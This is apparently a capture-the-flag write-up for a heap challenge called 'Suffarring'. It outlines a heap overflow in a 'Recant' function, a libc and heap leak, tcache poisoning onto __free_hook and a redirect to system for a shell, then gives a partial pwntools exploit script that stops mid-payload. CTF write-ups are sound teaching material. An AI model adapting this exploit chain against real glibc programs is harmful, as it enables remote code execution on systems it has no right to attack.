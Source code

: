 ### Suffarring
* There is a heap overflow at Recant Function when needle length is larger than haystack
* Overwrite the size to leak libc and heap address
* Overwrite the tcache's fd to malloc at __free_hook
* Modify __free_hook to system and get shell


```python=
from pwn import *

#r = process(["./suffarring"])
r = remote("suffarring.pwni.ng", 7361)

def add(size,data):
    r.sendlineafter(">","A")
    r.sendlineafter("?",str(size))
    r.sendafter("?",data)

def recant(idx,size,data):
    r.sendlineafter(">","R")
    r.sendlineafter("?",str(idx))
    r.sendlineafter("?",str(size))
    r.sendafter("?",data)


def remove(idx):
    r.sendlineafter(">","D")
    r.sendlineafter("?",str(idx))

def Print(idx):
    r.sendlineafter(">","P")
    r.sendlineafter("?",str(idx))

context.arch = "amd64"
add(0x4,"a"*0x4)
remove(0)
add(0x20,'a'*0x20)
add(0x30,'a'*0x30)
add(0x28,flat(0,0,0,0x31,0x630))
recant(2,0x30,flat(0,0,0,0x31,0x630)+p64(0x151))

add(0x500,'a'*0x500)
add(1,"a")
remove(3)
Print(2)
r.recvuntil("> ")
r.recvn(0x430)
heap = u64(r.recvn(0x8)) - 0x26a0
r.recvn(0x1f0)
libc = u64(r.recvn(0x8)) - 0x3ebca0

print hex(heap)
print hex(libc)

add(0x4,"a"*0x4)
remove(3)
add(0x4,"a"*0x4)
remove(3)
add(0x30,'a'*0x30)

data = flat(0,0,0,0x31,0,0,0,0,0,0x31,
        0,0,0,0,0,0x31,
   0x0,0,0,0,0,0x31,
   libc+0x3ed8e8,0,0,0,0,0x31,
```